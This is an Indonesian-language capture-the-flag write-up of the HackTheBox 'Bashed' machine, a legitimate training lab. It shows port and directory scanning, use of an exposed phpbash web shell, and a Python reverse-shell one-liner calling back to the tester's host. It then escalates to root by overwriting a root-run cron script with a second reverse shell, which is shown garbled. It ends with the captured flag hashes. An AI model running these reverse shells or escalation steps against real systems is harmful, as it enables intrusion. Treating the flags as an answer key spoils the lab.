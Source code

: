 ```yaml
---
date: 2023-12-10T10:21:05+07:00
title: "HackTheBox: Bashed"
slug: "htb-bashed"
tags:
  - Linux
  - HackTheBox
  - Writeup
description: "Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted."
lab: HTB
difficulty: easy
---
```

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted.

IP: 10.129.39.120

---

## Information Gathering
Scan port yang terbuka:
```bash
$ nmap -Pn -p- -oN nmap_all_ports.txt --min-rate 1000 10.129.39.120
Nmap scan report for 10.129.39.120
Host is up (0.041s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
```

Terdapat satu port terbuka, yaitu port 80 dengan service HTTP.

### Enumerasi HTTP
Cari direktori atau file menarik di port 80.
```bash{10-11}
$ feroxbuster -u http://10.129.39.120 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -o feroxbuster.txt
301      GET        9l       28w      315c http://10.129.39.120/images => http://10.129.39.120/images/
200      GET        8l       35w     2447c http://10.129.39.120/images/logo.png
200      GET        8l       73w     2429c http://10.129.39.120/js/html5.js
200      GET      154l      394w     7477c http://10.129.39.120/single.html
200      GET       32l      116w     1222c http://10.129.39.120/css/carouFredSel.css
200      GET      680l     1154w    10723c http://10.129.39.120/css/common.css
---SNIP---
200      GET        0l        0w        0c http://10.129.39.120/php/sendMail.php
200      GET        1l      255w     4559c http://10.129.39.120/dev/phpbash.min.php
200      GET      216l      489w     8151c http://10.129.39.120/dev/phpbash.php
```

Terdapat dua file menarik, yaitu `phpbash.min.php` dan `phpbash.php`.

Ketika membuka file `phpbash.min.php`, kita mendapatkan halaman `shell`.

![phpbash.min.php-](image.png)

Selanjutnya, kita bisa melakukan reverse shell ke terminal kita supaya kita dapat leluasa menjalankan command.

```bash
$ nc -lnvp 1337
listening on [any] 1337
```

```bash
www-data@bashed:/var/www/html/dev# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.4",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

```bash
$ nc -lnvp 1337
listening on [any] 1337
connect to [10.10.14.4] from (UNKNOWN) [10.129.39.120] 54284
$ whoami 
whoami
www-data
$
```

Sudah dapat shell, ternyata kita login sebagai `www-data`.

## Post Exploitation
Karena kita login sebagai pengguna dengan wewenang sedikit, maka kita perlu menaikkan wewenang kita ke yang lebih tinggi. Yaitu dengan Privilege Escalation.

### Linpeas
Jalankan linpeas, menemukan beberapa hal menarik.
```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
---SNIP---
╔══════════╣ Unexpected in root
/scripts
/initrd.img
/.bash_history
/vmlinuz
```

Dengan sudo tanpa password, kita bisa pindah ke akun `scriptmanager`.

```bash
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$
```

Cek direktori `/scripts`.
```bash
criptmanager@bashed:/scripts$ ls -lah
ls -lah
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Jun  2  2022 .
drwxr-xr-x 23 root          root          4.0K Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager  205 Dec  9 19:13 test.py
-rw-r--r--  1 root          root            12 Dec  9 19:13 test.txt
```

Terlihat bahwa kita bisa mengubah `test.py`. Di dalam `test.py` terdapat perintah untuk membuat `test.txt`. Karena `test.txt` milik root, maka ada kemungkinan `test.py` dijalankan oleh root.

Jadi, kita ubah isi `test.py` menjadi revshell baru.

```bash
scriptmanager@bashed:/scripts$ echo 'import socket,s.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4"up2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; 
<eno(),1);os.dup2(s.fileno(),2);import pty; pty.spaw
scriptmanager@bashed:/scripts$
```

```bash
╭─  MidnightRumble  ~                             
╰─❯ nc -lnvp 1234                                   
listening on [any] 1234 ...
connect to [10.10.14.4] from (UNKNOWN) [10.129.39.12]
# whoami
whoami
root
#
```

### user.txt
```bash
scriptmanager@bashed:/home$ cat arrexel/user.txt
cat arrexel/user.txt
27b41f7431caf2b873952ce0ee982a02
```

### root.txt
```bash
# cat root.txt
cat root.txt
836161db4f4d3b069946ca8d8a20b67b
#
```
